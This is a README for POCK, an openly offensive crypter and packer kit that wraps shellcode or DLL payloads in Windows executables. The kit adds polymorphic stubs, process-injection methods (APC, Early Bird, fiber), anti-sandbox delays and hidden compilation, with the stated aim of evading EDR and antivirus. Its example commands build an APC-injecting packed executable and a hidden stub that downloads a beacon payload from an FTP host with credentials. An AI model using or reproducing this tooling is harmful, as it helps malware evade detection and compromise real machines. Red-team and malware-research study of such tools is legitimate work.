# POCK - Polymorphic Obfuscation and Crypter Kit

**“UnPACKable payloads start here!”**  
A customizable binary packer designed for red teamers, malware researchers, and offensive security professionals.

---

## Overview

POCK (Polymorphic Obfuscation and Crypter Kit) is a modular crypter and packer framework that encrypts and embeds raw payloads into stealthy Windows executables. It is built to help offensive operators evade endpoint detection and response (EDR) and antivirus solutions by implementing polymorphic stubs, anti-sandbox logic, and multiple injection methods.

POCK supports:

- Payload types: raw shellcode (`.bin`) or reflective DLLs (`.dll`)
- Multiple encryption options: AES or XOR
- Staging payloads externally via FTP or embedding them directly
- Injection techniques such as:
  - Asynchronous Procedure Call (APC)
  - Early Bird APC
  - Fiber-based execution
- Anti-analysis features: entropy delay, Fibonacci and factorial loops, sleep timer
- Stub polymorphism via Jinja2-based template randomization
- Hidden compilation for stealth or console mode for debugging

---

## Features

- AES and XOR encryption support
- Jinja2-powered polymorphic stub generation
- Built-in anti-analysis and sandbox evasion logic
- Supports both embedded and staged payloads
- Multiple code injection options
- Configurable execution delays
- Generates fully native Windows executables using `mingw-w64`

---

## Requirements

- Python 3.8 or higher
- [pycryptodome](https://pypi.org/project/pycryptodome/)
- [jinja2](https://pypi.org/project/Jinja2/)
- MinGW-w64 cross-compiler (e.g. `x86_64-w64-mingw32-gcc`)

### Install Python dependencies:

```bash
pip install -r requirements.txt
```
Usage:
```bash
python3 POCK.py -i <input_file> -o <output_file> -e <encryption> -k <key> -t <payload_type> [options]
```
Required Arguments

-i, --input
##Path to raw shellcode (.bin) or DLL (.dll) file

-o, --output
##Name of the compiled output executable

-e, --encryption
##Encryption method to use: aes or xor

-k, --key
##Key to encrypt the payload

-t, --type
##Payload type: shellcode or dll

###Optional Arguments
--inject <method>
##Injection method: apc, earlybird, fiber

--url <ftp_url>
##FTP URL for remote payload staging

--ftp-user <username>
##FTP username for authentication

--ftp-pass <password>
##FTP password for authentication

--entropy
##Add entropy-based execution delay

--fibonacci
##Add Fibonacci loop delay

--factorial
##Add factorial computation delay

--sleep <seconds>
##Sleep for specified seconds before executing

--hide
##Compile stub as a hidden (GUI) executable instead of console

##Example Commands
```bash
Generating an embedded payload
python3 POCK.py -i payload.bin -o packed.exe -e aes -k <AES Key> -t shellcode --inject apc --entropy --fibonacci --sleep 15 --hide

Generating a staged stub
python3 POCK.py -i beacon.dll -o agent.exe -e xor -k RedTeamFTW -t dll --url ftp://192.168.50.219/payload.bin --ftp-user user --ftp-pass pass --inject fiber --hide
```
